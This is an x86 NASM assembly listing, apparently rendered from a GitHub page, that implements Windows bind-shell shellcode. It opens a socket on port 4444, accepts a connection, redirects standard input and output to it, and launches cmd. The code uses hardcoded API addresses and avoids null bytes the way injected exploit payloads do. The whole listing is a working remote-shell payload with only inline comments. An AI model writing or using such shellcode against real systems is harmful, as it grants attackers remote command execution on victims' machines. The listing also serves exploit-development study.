 ```nasm
push eax             ; Arg dwFlags = 0
push eax             ; Arg g = 0
push eax             ; Arg lpProtocolInfo = 0
push eax             ; Arg protocol = IPPROTO_TCP
push 0x1             ; Arg type = SOCK_STREAM
push 0x2             ; Arg af = AF_INET
mov eax, 0x71AB8B6A
call eax
mov ebx, eax         ; Store WSASocket() handler

; bind(SOCKET s, const sockaddr *addr, int namelen)
xor eax, eax
push eax             ; Creating space on stack
mov eax, 0x5c110102 
dec ah               ; eax: 0x5c110102 -> 0x5c110002 (Mitigating null byte)
push eax             ; Store the portnr on stack
mov eax, esp         ; Store pointer to the portnr
push 0x10            ; Arg namelen = 16 bytes
push eax             ; Arg *addr = eax -> 0x5c110002 (5c11 = 4444, 0002 = INET_AF)
push ebx             ; Arg s = WSASocket() handler
mov eax, 0x71AB4480
call eax

; listen(SOCKET s, int backlog)
push 0x1             ; Arg backlog = 1         
push ebx             ; Arg s = WSASocket() handler
mov eax, 0x71AB8CD3       
call eax

; accept(SOCKET s, sockaddr *addr, int *addrlen)      
xor eax, eax
push eax             ; Arg addrlen = 0
push eax             ; Arg *addr = 0
push ebx             ; Arg s = WSASocket() handler
mov eax, 0x71AC1040
call eax
mov ebx, eax         ; Store accept() handler

; SetStdHandle(_In_ DWORD nStdHandle, _In_ HANDLE hHandle)
mov edx, 0x7c81d363

push ebx             ; Arg hHandle = accept() handler
push 0xfffffff6      ; Arg nStdHandle = -0A (STD_INPUT)
call edx
          
push ebx             ; Arg hHandle = accept() handler
push 0xfffffff5      ; Arg nStdHandle = -0B (STD_OUTPUT)
call edx
          
push ebx             ; Arg hHandle = accept() handler          
push 0xfffffff4      ; Arg nStdHandle = -0C (STD_ERROR)
call edx

; system(const char *command)
mov DWORD [esp-0x5], 0x646d6341   ; Store string "Acmd" 5 bytes from top of stack
lea eax, [esp-0x4]                ; Store pointer to the string "cmd\0" in eax
lea esp, [esp-0x4]                ; Manually update esp
push eax                          ; Arg *command = eax -> "cmd"
mov eax, 0x77c293c7
call eax
```
